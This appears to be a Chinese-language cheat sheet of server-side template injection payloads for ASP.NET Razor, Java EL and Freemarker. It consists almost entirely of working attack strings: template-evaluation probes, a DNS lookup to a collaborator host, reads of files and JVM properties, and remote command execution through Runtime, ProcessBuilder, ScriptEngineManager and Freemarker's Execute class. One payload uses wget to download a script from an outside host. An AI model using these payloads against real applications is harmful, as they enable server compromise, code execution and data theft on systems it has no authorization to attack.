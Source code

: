 	SSTI 服务端模板注入
  #### ASP.NET Razor
  	@(1+2)
	命令执行
	@{
	  // C# code
	}
  #### EL
  	${1+1}
	#{1+1}
	不包括代码执行
	// DNS Lookup
	${"".getClass().forName("java.net.InetAddress").getMethod("getByName","".getClass()).invoke("","xxxxxxxxxxxxxx.burpcollaborator.net")}

	// JVM 系统属性查找 (ex: java.class.path)
	${"".getClass().forName("java.lang.System").getDeclaredMethod("getProperty","".getClass()).invoke("","java.class.path")}
	代码执行
	RCE payloads
	''.class.forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(<COMMAND STRING/ARRAY>)
	''.class.forName('java.lang.ProcessBuilder').getDeclaredConstructors()[1].newInstance(<COMMAND ARRAY/LIST>).start()

	使用Runtime
	#{session.setAttribute("rtc","".getClass().forName("java.lang.Runtime").getDeclaredConstructors()[0])}
	#{session.getAttribute("rtc").setAccessible(true)}
	#{session.getAttribute("rtc").getRuntime().exec("/bin/bash -c whoami")}

	使用processbuilder
	${request.setAttribute("c","".getClass().forName("java.util.ArrayList").newInstance())}
	${request.getAttribute("c").add("cmd.exe")}
	${request.getAttribute("c").add("/k")}
	${request.getAttribute("c").add("ping x.x.x.x")}
	${request.setAttribute("a","".getClass().forName("java.lang.ProcessBuilder").getDeclaredConstructors()[0].newInstance(request.getAttribute("c")).start())}
	${request.getAttribute("a")}

	使用Reflection & Invoke
	${"".getClass().forName("java.lang.Runtime").getMethods()[6].invoke("".getClass().forName("java.lang.Runtime")).exec("calc.exe")}

	使用ScriptEngineManager one-liner
	${request.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec(\\\"ping x.x.x.x\\\")"))}

	使用ScriptEngineManager
	${facesContext.getExternalContext().setResponseHeader("output","".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval(\"var x=new java.lang.ProcessBuilder;x.command(\\\"wget\\\",\\\"http://x.x.x.x/1.sh\\\");org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\"))}
  #### Freemarker
  	${3*3}
	#{3*3}
	读取文件
	${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('path_to_the_file').toURL().openStream().readAllBytes()?join(" ")}
	将返回的字节转换为 ASCII
	代码执行
	<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
	[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
	${"freemarker.template.utility.Execute"?new()("id")}
	沙盒绕过-2.3.30 以下